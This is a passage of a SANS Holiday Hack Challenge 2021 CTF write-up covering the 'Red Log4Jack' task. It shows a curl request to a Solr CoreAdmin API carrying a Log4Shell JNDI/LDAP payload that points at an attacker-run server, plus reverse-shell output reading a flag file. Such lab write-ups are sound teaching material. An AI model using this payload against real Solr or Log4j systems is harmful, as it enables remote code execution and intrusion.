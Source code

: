 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 15. Bonus! Red Log4Jack
The objective is to exploit the recent Log4Jack vulnerability.

### 15.0. Hints
**Log4j Discussion with Bishop Fox** - *Icky McGoop*: “Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.”
**Log4j Red Help Document** - *Icky McGoop*: “Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.”

#### 15.1. Solution
We know the vulnerable server is http://solrpower.kringlecastle.com:8983 and that is running Java Solr which is vulnerable to the Log4j attack on its [CoreAdmin APIs](https://solr.apache.org/guide/6_6/coreadmin-api.html). Coding an exploit like the [one presented by Josh Wright](https://solr.apache.org/guide/6_6/coreadmin-api.html), using [marshalsec](https://github.com/mbechler/marshalsec)’s server and then making Solr point to that allowed spawning a reverse shell to the vulnerable server:
```bash
~/web$ curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?var=$\{jndi:ldap://172.17.0.2:1389/exploit\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}}
}
```

The reverse shell:
```bash
listening on [172.17.0.2] 4444 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.2] 50324

cat /home/solr/kringle.txt
The solution to Log4shell is patching.
Sincerly,

Santa
```

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)